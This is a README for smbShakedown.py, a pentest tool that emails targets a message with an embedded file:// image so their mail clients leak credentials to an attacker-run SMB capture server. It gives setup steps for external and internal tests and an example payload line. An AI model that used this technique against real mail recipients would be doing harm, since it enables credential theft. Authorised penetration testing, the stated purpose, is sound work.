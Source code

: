 #smbShakedown.py
    Description: A simplified SMB Email Client Attack script used for External/Internal pentests.
    Created by: Nick Sanzotta / @beamr
    Version: smbShakedown.py v 1.0

#External Pentest
    Virtual Private Server (VPS) recommended.
    If behind a firewall be sure to enable port forwarding for your SMB Capture Server.
    
    1.Configure SMTP Relay server address.
    2.Enter SMTP Relay server credentials. (anonymous connections not yet supported.)
    3.Configure "from" and "to" addresses.
    4.Enter SMBCapture Server IP address, so it can be place in body of email 
    EX: <img src=file://127.0.0.1/image/foo.gif>
    *Verify this is the external IP address*
    5.SMBCapture Server does not have to be hosted locally.
    EX:(smbShakedown.py script can be ran locally on one system and a SMBCapture server can be hosted somewhere else like on a VPS server.

#Internal Pentest
    1.Configure SMTP Relay server address or your own locally hosted SMTP Server. (Looking into intergrated support.)
    <hmm... Does the client's Email server support relaying?>
    2.Enter SMTP Relay server credentials. (anonymous connections not yet supported.)
    3.Configure "from" and "to" addresses.
    4.Enter SMBCapture Server IP address, so it can be place in body of email 
    EX: <img src=file://127.0.0.1/image/foo.gif>
    5.SMBCapture Server can be hosted locally since your testing an internal network right?
    (Will add in support to automatically launch MSF Console with auxiliary/server/capture/smb)

#To do:
    SMTP Anonymous Auth option
    MSF Console option(auxiliary/server/capture/smb)
    Multiple recipient address support.
    SMTP local server option
    Create forked version.
